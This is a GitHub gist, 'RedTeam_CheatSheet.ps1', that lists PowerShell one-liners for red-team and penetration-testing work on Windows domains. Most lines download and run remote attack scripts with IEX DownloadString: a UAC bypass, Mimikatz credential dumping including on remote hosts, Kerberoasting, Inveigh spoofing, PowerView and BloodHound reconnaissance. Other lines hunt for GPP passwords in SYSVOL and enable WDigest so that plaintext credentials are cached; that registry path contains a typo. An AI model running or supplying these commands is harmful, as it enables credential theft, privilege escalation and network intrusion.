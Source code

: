 RedTeam_CheatSheet.ps1 · GitHub

|     |     |
| --- | --- |
| 1   | # Description: |
| 2   | # Collection of PowerShell one-liners for red teamers and penetration testers to use at various stages of testing. |
| 3   |     |
| 4   | # Invoke-BypassUAC and start PowerShell prompt as Administrator [Or replace to run any other command] |
| 5   | powershell.exe  -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'" |
| 6   |     |
| 7   | # Invoke-Mimikatz: Dump credentials from memory |
| 8   | powershell.exe  -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds" |
| 9   |     |
| 10  | # Import Mimikatz Module to run further commands |
| 11  | powershell.exe  -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')" |
| 12  |     |
| 13  | # Invoke-MassMimikatz: Use to dump creds on remote host [replace $env:computername with target server name(s)] |
| 14  | powershell.exe  -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'\|Invoke-MassMimikatz -Verbose" |
| 15  |     |
| 16  | # PowerUp: Privilege escalation checks |
| 17  | powershell.exe  -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks” |
| 18  |     |
| 19  | # Invoke-Inveigh and log output to file |
| 20  | powershell.exe  -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Scripts/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y –Proxy Y -LogOutput Y -FileOutput Y" |
| 21  |     |
| 22  | # Invoke-Kerberoast and provide Hashcat compatible hashes |
| 23  | powershell.exe  -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-kerberoast -OutputFormat Hashcat" |
| 24  |     |
| 25  | # Invoke-ShareFinder and print output to file |
| 26  | powershell.exe  -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess\|Out-File -FilePath sharefinder.txt" |
| 27  |     |
| 28  | # Import PowerView Module to run further commands |
| 29  | powershell.exe  -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')" |
| 30  |     |
| 31  | # Invoke-Bloodhound |
| 32  | powershell.exe  -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound" |
| 33  |     |
| 34  | # Find GPP Passwords in SYSVOL |
| 35  | findstr /S cpassword $env:logonserver\sysvol\*.xml |
| 36  | findstr /S cpassword %logonserver%\sysvol\*.xml (cmd.exe) |
| 37  |     |
| 38  | # Run Powershell prompt as a different user, without loading profile to the machine [replace DOMAIN and USER] |
| 39  | runas /user:DOMAIN\USER /noprofile powershell.exe |
| 40  |     |
| 41  | # Insert reg key to enable Wdigest on newer versions of Windows |
| 42  | reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1 |
| 43  |     |